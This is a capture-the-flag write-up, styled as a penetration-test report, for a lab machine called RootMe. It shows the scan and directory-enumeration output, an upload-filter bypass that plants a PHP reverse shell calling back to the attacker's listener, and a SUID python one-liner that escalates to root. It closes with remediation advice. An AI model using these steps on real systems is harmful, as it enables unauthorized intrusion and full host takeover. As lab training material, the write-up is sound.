

# RootMe CTF

## Executive summary:

This PHP application is vulnerable against remote execution using the `panel` upload script and served as an entry point to the instance with a stock `php-reverse-shell`
The host running the application was vulnerable against an escalation of priviledges attack via `/usr/bin/python`. I compromised the host entirely.

### **1. Introduction:**

The objective of this penetration test was to evaluate the vulnerabilities present in the target machine and exploit them to gain unauthorized access. The findings are outlined in the report below.
```bash

Host is up (0.062s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
|*http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|*      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### **2. Methodology:**

The test was conducted systematically, starting with a basic enumeration, followed by exploitation and post-exploitation activities.

### **3. Findings:**

### **3.1 Network Enumeration:**

Using the **`nmap`** tool, a quick network scan was performed on the target machine:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 24 00:52:24 2023 -- 1 IP address (1 host up) scanned in 10.67 seconds

```

### **3.2 Remote code execution via input validation bypass**


Using gobuster I’ve discovered following:

```bash
┌──(root㉿kali)-[/]
└─$ gobuster dir -u http://10.10.60.63 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                    
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.60.63
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 312] [--> http://10.10.60.63/uploads/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.60.63/css/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.60.63/js/]
/panel                (Status: 301) [Size: 310] [--> http://10.10.60.63/panel/]
```

**Folders**

- `uploads`

Navigation to `uploads` shows that `apache` has enabled directory listing, which is another vulnerability as I could not execute the exploit without knowing it’s `$path` on the webserver


- `/panel/`


Let’s try to exploit this upload by uploading a reverse shell in `exploit.php` file. We first need to get a reverse shell template file from `/usr/share/webshells/php/` and copy it `cp /usr/share/webshells/php/php-reverse-shell.php exploit-php.php`

We need to edit it to match our machine. 

```bash
#find this portion of the code and change to your ip and port you intend to open
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```



As we can see, the website has some sort of input validation in place to prevent exploiting this page, however, there are other ways to remotely execute `php` scripts in `apache` servers


So let’s try to rename our `exploit-php.php` to `exploit-php.phtml`


Now you can start listening for connections with:

```bash
──(root㉿kali)-[/]
└─# nc -lnvp 9401
listening on [any] 9401 ...
```

Navigate to `/uploads` and open your exploit file. This will lead to a reverse shell in your terminal

```bash

connect to [10.11.53.83] from (UNKNOWN) [10.10.60.63] 38468
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:59:58 up 13 min,  0 users,  load average: 0.00, 0.19, 0.30
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

### **3.3 Shell persistence and privilege escalation**

First, we should look around if we can find any clues. Let’s search the filesystem

```bash
find / -type f -name user.txt 2>/dev/null
/var/www/user.txt
```

Amazing, we’ve got another flag. 
Now, we need to find files with broken permissions to look for privilege escalation possibilities. 

```bash
$ find / -perm -4000 -type f 2>/dev/null
...
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python 
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
...

```

And we can see that Python is listed among them. 

A quick Google search will get us to GTFObins. So let’s escalate python privileges:


```bash

python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
```

With root access, we can easily `cat /root/root.txt` flag and obtain the final flag.

### **4. Conclusion and Remmediation**

The target offered a plethora of vulnerable spots in the PHP Website, webserver configuration and also broken permission on the host. In order to fix these make sure to:

- Disable directory listing in `apache` configuration and prevent execution of .php files in the uploads folder
- re-implement your upload component and enforce strict input validation to all other php executable files
- fix broken privileges for Python and look for other vulnerabilities which could lead to privilege escalation
- Invest in a monitoring and SIEM solutions.